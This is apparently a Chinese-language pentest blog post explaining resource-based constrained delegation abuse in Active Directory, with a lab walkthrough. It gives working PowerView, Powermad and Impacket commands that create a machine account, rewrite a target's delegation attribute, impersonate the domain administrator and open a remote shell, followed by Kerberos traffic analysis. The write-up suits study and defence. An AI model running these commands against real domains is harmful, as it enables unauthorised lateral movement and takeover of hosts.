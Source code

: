 ```yaml
---
title: 基于资源的约束性委派
published: 2024-10-01
description: "基于资源的约束性委派学习"
image: "./WuZhi.png"
tags: ["Domain", "Windows", "Pentest"]
category: Windows
draft: false
---
```


# 基于资源的约束性委派(RBCD)

前面两篇文章讲的[非约束性委派]()和[约束性委派]()都需要有管理员权限。因此微软在Windows server 2012引入了基于资源的约束性委派，它不需要管理员权限去设置，而是把设置属性权限交给了机器本身

# 约束性委派和RBCD的区别

如果都是通过委派从服务A模拟用户访问服务B。在约束性委派相当于是正向委派，由服务A通过设置msDS-AllowedToDelegateTo属性的值为服务B，来使A能模仿用户访问服务B。
RBCD则是反向委派的，不需要设置服务A的msDS-AllowedToDelegateTo属性的值，而需要在服务B上设置msds-allowedtoactonbehalfofotheridentity属性值为服务A的SID

# 漏洞利用条件

1. 拥有一个域用户凭据，域用户可以创建机器账户(最多只能创建10个)，而机器账户可以当作服务账户使用，所以拥有一个域用户凭据就相当于控制了一个服务A
2. 具有修改服务B的msds-allowedtoactonbehalfofotheridentity属性权限，即需要用户对目标机器有写入属性的权限，机器账户自身和创建机器账户(如把主机加入到域中的用户)的用户即拥有该权限


# 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN2012R203 ( 10.0.0.137 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 普通域用户: hack
- 域: xie.com

使用`hack`用户将`WIN2012R203`主机加入域，`hack`就会拥有对`WIN2012R203`主机的`msds-allowedtoactonbehalfofotheridentity`属性修改权限。此外也可以通过以下方式使`hack`拥有对`WIN2012R203`属性写入的权限，`All`即`GenericAll(所有权限)`

```powershell
Add-DomainObjectAcl -TargetIdentity "CN=WIN2012R203,CN=Computers,DC=xie,DC=com" -PrincipalIdentity hack -Rights All -Verbose
```

# 攻击复现

假设现在已经获取了域内WIN7主机xie\hack域用户，现在需要横向到WIN2012R203主机，通过下面的脚本看到当前，可以看到`hack`用户对[User-Account-Restrictions](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012)具有`WriteProperty`写入权限，而`User-Account-Restrictions`里面包括了`msds-allowedtoactonbehalfofotheridentity`属性，所以hack用户可以对WIN2012R203进行基于资源的约束性委派攻击
```powershell
Import-Module .\PowerView.ps1
$AttackerSID = Get-DomainUser hack -Properties objectsid | Select -Expand objectsid
$ACE = Get-DomainObjectACL "WIN2012R203.xie.com" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE | Select-Object ObjectAceType,ActiveDirectoryRights

#ObjectAceType                           ActiveDirectoryRights
#-------------                          ---------------------
#User-Logon                             WriteProperty
#Description                            WriteProperty
#Display-Name                           WriteProperty
#SAM-Account-Name                       WriteProperty
#DNS-Host-Name-Attributes               Self
#Validated-SPN                          Self
#User-Account-Restrictions              WriteProperty
#                                       ExtendedRight, GenericRead
```

此外[ActiveDirectoryRights](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=net-8.0#fields)查询结果如果是`GenericAll`,`WriteProperty`,`GenericWrite`也是可以的，如下

```
BinaryLength          : 36
AuditFlags            : None
InheritanceFlags      : None
PropagationFlags      : None
AceFlags              : None
AccessMask            : 32
AceType               : AccessAllowed
ObjectSID             : S-1-5-21-2255574704-2553525763-2083768959-1114
SecurityIdentifier    : S-1-5-21-2255574704-2553525763-2083768959-1119
IsCallback            : False
ObjectDN              : CN=WIN2012R203,CN=Computers,DC=xie,DC=com
AceQualifier          : AccessAllowed
IsInherited           : False
ActiveDirectoryRights : WriteProperty
OpaqueLength          : 0
```

以沦陷的`WIN7`主机，通过以下方式创建一个机器账户`machine`，这样就得到了一个服务A

```powershell
Import-Module Powermad.ps1
New-MachineAccount -MachineAccount machine -Password $(ConvertTo-SecureString "Abcd@1234" -AsPlainText -Force)
```

用`hack`用户权限修改`WIN2012R203`主机的`msds-allowedtoactonbehalfofotheridentity`属性为`machine`的`SID`，即服务A
```powershell
Import-Module PowerView.ps1
$IdentitySID = Get-DomainComputer | Where-Object { $_.name -eq "machine" } | Select-Object -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($IdentitySID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer "WIN2012R203.xie.com" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
#检查是否修改成功
Get-DomainComputer WIN2012R203 -Properties msds-allowedtoactonbehalfofotheridentity
```

接下来就可以在攻击机进行以下操作

```bash
echo "10.0.0.137 WIN2012R203.xie.com" | sudo tee -a /etc/hosts
python getST.py -dc-ip WIN-HSTT0ETJU78.xie.com xie.com/machine$:Abcd@1234 -spn cifs/WIN2012R203.xie.com -impersonate administrator
export KRB5CCNAME=administrator.ccache
python smbexec.py -no-pass -k WIN2012R203.xie.com
```

# 攻击流量分析

全程涉及6个包

![package](./package.png)

第一个包是`machine$`向KDC认证身份申请可转发的TGT

![reqTGT](./reqTGT.png)

第二个包是KDC返回TGT

![TGT](./TGT.png)

第三个包是以machine服务账户代表administrator用户向KDC申请访问自身服务的ST

![s4u2self](./s4u2self.png)

第四个包是KDC返回不可转发的ST，但是基于资源的约束性委派S4u2Self返回的ST即使不可转发也能转给S4u2Proxy使用

![ST1](./ST1.png)

第五个包是machine$拿上一步获得的ST向KDC申请WIN2012R203主机的cifs服务的ST

![ST2](./ST2.png)

第六个包是KDC返回访问WIN2012R203主机的cifs服务的可转发ST

![ST3](./ST3.png)

- <https://github.com/Kevin-Robertson/Powermad.git>
- <https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012>